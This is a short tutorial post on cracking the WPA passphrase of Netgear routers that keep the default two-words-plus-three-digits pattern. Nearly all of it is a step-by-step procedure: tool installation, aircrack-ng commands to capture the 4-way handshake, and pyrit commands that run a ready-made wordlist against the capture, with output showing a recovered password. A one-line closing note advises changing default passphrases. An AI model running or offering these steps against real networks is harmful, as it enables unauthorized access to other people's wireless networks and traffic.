 Netgear Wireless Router Default Passphrase Vulnerability

**OS:** Debian 8

A vulnerability exists in the default passphrase for Netgear Wireless Routers. The default passphrase consists of two words, followed by a three digit number (<http://support1.gearguy.com/useruploads/images/19915v3.PNG>):<br>
**word1word2xxx**

To exploit this vulnerability you will need “aircrack-ng”, “pyrit” and the wordlist containing all possible passphrases. Initially, i was going to generate the dictionary using /usr/share/dict/cracklib-small and “crunch”, but the Netgear dictionary is already available for download from ScriptKitty (<http://www.scriptkitty.ca/index.php/wordlists/>).
##Installation of Required Software
Manual step-by-step instructions @ blackMORE Ops (<http://www.blackmoreops.com/2014/03/13/install-nvidia-driver-kernel-module-cuda-and-pyrit-kali-linux/>)
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>sudo apt-get install aircrack-ng</b><br>
<font color="silver">user@debian8:~$</font> <b>sudo apt-get install pyrit</b>
</div>
</code>
##Step 1 – Capturing the Handshake
Plug in your Alfa AWUS036H and capture the 4-way handshake.<br>
Tutorial @ SecurityTube - <http://www.securitytube.net/groups?operation=view&groupId=9>
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>airmon-ng start wlan0</b><br>
<font color="silver">user@debian8:~$</font> <b>airodump-ng mon0</b><br>
<font color="silver">user@debian8:~$</font> <b>airodump-ng -c 1 -w netgear.cap --bssid 00:11:22:33:44:55 mon0</b><br>
</div>
</code>
##Step 2 – Cracking the Capture
Confirm you have useable handshakes, then clean up the capture file and crack the passphrase.<br>
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>pyrit -r netgear.cap analyze</b><br>
<font color="silver">user@debian8:~$</font> <b>pyrit -r netgear.cap -o stripped-netgear.cap strip</b><br>
<font color="silver">user@debian8:~$</font> <b>pyrit -r stripped-netgear.cap -i adjective_noun_3d.txt -b 00:11:22:33:44:55 attack_passthrough</b><br>
<font color="silver">...</font><br>
<font color="silver">Parsing file 'stripped-netgear.cap' (1/1)...</font><br>
<font color="silver">Parsed 10 packets (10 802.11-packets), got 1 AP(s)</font><br>
<font color="silver">Tried 12235614 PMKs so far; 25683 PMKs per second.</font><br>
<font color="silver">The password is</font> <b>'magicalsquash835'</b><br>
</div>
</code>
##Solution
Never use the default passphrase provided with your router and always use complex passwords that do not follow predictable patterns.

Tags: wifi
